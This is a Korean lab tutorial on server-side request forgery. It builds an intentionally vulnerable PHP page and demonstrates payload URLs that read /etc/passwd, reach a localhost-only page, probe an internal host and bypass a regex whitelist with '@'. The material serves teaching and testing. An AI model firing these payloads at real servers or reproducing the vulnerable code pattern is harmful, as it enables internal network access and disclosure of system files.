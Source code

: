 # SSRF (Server Side Request Forgery)

서버단에서 요청을 발생시켜 내부시스템에 접근하거나 외부로 데이터를 유출할 수 있는 공격

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [SSRF](#SSRF)**

 - [LFI](#LFI)

 - [RFI](#RFI)

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache와 php를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

SSRF에 취약한 페이지를 만들자.

```php
<?php
    if (isset($_GET['url'])) $page = $_GET['url'];
    else $page = 'http://www.google.com';
    echo file_get_contents($page);
?>
```

로컬 호스트로만 접속할 수 있는 페이지(admin.php)를 만들자.

```php
<?php
    if ($_SERVER["REMOTE_ADDR"] == '127.0.0.1')  {
        echo 'hello world<br>';
    }
?>
```

# **SSRF**

외부 URL을 호출하여 내용을 출력하는 페이지이다. 아무 인자 없이 index.php에 접근 시 Google의 페이지를 확인할 수 있다.

![](images/2022-06-28-19-24-41.png)

## **LFI**

file wrapper를 이용하여 서버의 데이터를 확인할 수 있다.

| data	| value	|
| :---	| :--- 	|
| URL	| http://192.168.0.58/index.php?url=file:///etc/passwd |

![](images/2022-06-28-19-38-06.png)

혹은 로컬 호스트만 접속이 가능한 페이지를 접속하여 데이터를 확인할 수 있다.

| data	| value	|
| :---	| :--- 	|
| URL	| http://192.168.0.58/index.php?url=http://127.0.0.1/admin.php |

결과는 다음과 같다.

    hello world

127.0.0.1을 0.0.0.0이나, 0x7f000001으로 변환할 수 있다.

## **RFI**

서버의 내부 네트워크의 다른 서버가 존재한다면, 다른 서버의 데이터를 확인할 수 있다.

| data	| value	|
| :---	| :--- 	|
| URL	| http://192.168.0.58/index.php?url=http://10.10.0.55/ |

만약 다음과 같이 화이트리스트로 인자 값을 검사한다고 가정하자.

```php
<?php
    if (isset($_GET['url'])) $page = $_GET['url'];
    else $page = 'http://www.google.com';

    if(preg_match("/http:\/\/www.google.com/", $page)) {
        echo file_get_contents($page);
    }
?>
```

@를 이용하여 문자열 검사를 우회하여 외부 서버에 접속하여 데이터를 확인할 수 있다.

| data	| value	|
| :---	| :--- 	|
| URL	| http://192.168.0.58/index.php?url=http://www.google.com@www.naver.com |

결과는 다음과 같이 나온다.

![](images/2022-06-28-19-58-11.png)